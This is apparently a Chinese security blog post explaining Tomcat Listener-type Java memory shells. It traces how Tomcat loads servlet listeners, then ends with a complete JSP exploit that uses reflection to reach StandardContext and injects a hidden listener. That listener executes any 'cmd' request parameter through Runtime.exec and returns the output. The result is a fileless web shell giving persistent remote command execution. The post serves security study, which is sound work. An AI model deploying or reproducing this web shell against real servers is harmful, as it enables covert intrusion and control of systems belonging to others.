 ```yaml
---
title: JAVA安全-内存马-Listener型
date: 2025-10-15 20:00:00
tags: JAVA
categories: Java安全-内存马
---
```


> 参考：[Java内存马系列-04-Tomcat 之 Listener 型内存马 | Drunkbaby's Blog](https://drun1baby.top/2022/08/27/Java内存马系列-04-Tomcat-之-Listener-型内存马/#读取完配置文件，加载-Listener)

# Java安全-内存马-Listener型

## 环境搭建

环境搭建之前有写，将`filter`测试方法换位`listener`方法即可，后续`web.xml`也需要修改

## 前置知识

Java Web 开发中的监听器（Listener）就是 Application、Session 和 Request 三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。

### Listener 三个域对象

- **ServletContextListener**
- **HttpSessionListener**
- **ServletRequestListener**

很明显，`ServletRequestListener` 是最适合用来作为内存马的。因为 `ServletRequestListener` 是用来监听 `ServletRequest`对 象的，当我们访问任意资源时，都会触发`ServletRequestListener#requestInitialized()`方法。下面我们来实现一个恶意的 Listener

### 测试代码

```java
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;

@WebListener("/listenerTest")
public class listener implements ServletRequestListener {


    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        System.out.println("Request Initialized");
    }
}

```

web.xml

```xml
        <listener>
        <listener-class>listener</listener-class>
         </listener>
```

然后启动tomcat，每次访问都会触发`requestInitialized`，无论请求是否存在都会触发

![image-20251015105412934](https://image.liam317.top/2025/10/2a9f3ff9d48b882a45e38355b81b6d32.png)

## 流程分析

### 读取所有listener

先从`ContextConfig.class`开始，要访问这个文件需要导入`catalina.jar`包，具体操作：`右上角设置->项目结构->模块->依赖->添加jar包->catalina.jar包在tomcat安装目录下的lib文件夹下`

通过查看`ContextConfig`可以知道，先读取了`web.xml`文件，然后再读取`web.xml`文件中的`listener`

![image-20251015105840134](https://image.liam317.top/2025/10/3278e7b324451c0ae5b583dd8a1e4206.png)

![image-20251015105907858](https://image.liam317.top/2025/10/0b664dc71f2aab42909d09b27d717fc7.png)

然后查看`addApplicationListener`，这是个接口下的方法，实现方法有两个，我们查看`StandardContext`类中的，之前`filte`内存马就是从这里出发的

![image-20251015110146812](https://image.liam317.top/2025/10/e7299cf4b1e6d2e2138e5de95a434778.png)

![image-20251015110635165](https://image.liam317.top/2025/10/418ec51abefb55047f6a6f31b8db647a.png)

这个其实就是循环把`web.xml`中的`listener`挨个读出来

### listenerStart

然后在这里将所有的`listener`写给`listeners`数组，后面就是去挨个调用`listener`，最后调用我们自定义的那个`listener`

![image-20251015110920002](https://image.liam317.top/2025/10/d99922d03aac26c200488e64bf8fb921.png)

# EXP编写

## EXP 分析

如果我们要实现 EXP，要做哪些步骤呢？

- 很明显的一点是，我们的恶意代码肯定是写在对应 Listener 的 `requestInitialized()` 方法里面的。
- 通过 StandardContext 类的 `addApplicationEventListener()` 方法把恶意的 Listener 放进去。

Listener 与 Filter 的大体流程是一样的，所以我们也可以把 Listener 先放到整个 Servlet 最前面去

这就是最基础的两步了，如果排先后顺序的话一定是先获取 StandardContext 类，再通过 `addApplicationEventListener()` 方法把恶意的 Listener 放进去，我们可以用流程图来表示一下运行过程。

![img](https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/ListenerRoute.png)

## EXP编写

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="java.util.Scanner" %>
<%
    ServletContext context1=pageContext.getServletContext();
    System.out.println(context1.getClass().getName());

    Field field1=context1.getClass().getDeclaredField("context");
    field1.setAccessible(true);
    ApplicationContext context2= (ApplicationContext) field1.get(context1);
    System.out.println(context2.getClass().getName());

    Field field2=context2.getClass().getDeclaredField("context");
    field2.setAccessible(true);
    StandardContext context3= (StandardContext) field2.get(context2);
    System.out.println(context3.getClass().getName());

    class Listener1 implements ServletRequestListener {

        public Listener1() {
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {

        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            try {
                RequestFacade reqfacade = (RequestFacade) sre.getServletRequest();
                Field reqfield = RequestFacade.class.getDeclaredField("request");
                reqfield.setAccessible(true);
                Request request = (Request) reqfield.get(reqfacade);
                Response response = (Response) request.getResponse();
                if (request.getParameter("cmd") != null) {
                    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    response.getWriter().write(output);
                    response.getWriter().flush();
                }
            } catch (Exception e) {
            }
        }
    }

    context3.addApplicationEventListener(new Listener1());
%>
```

![image-20251015112044596](https://image.liam317.top/2025/10/0dd091ab9a0cfa974dc5533b92cccd5c.png)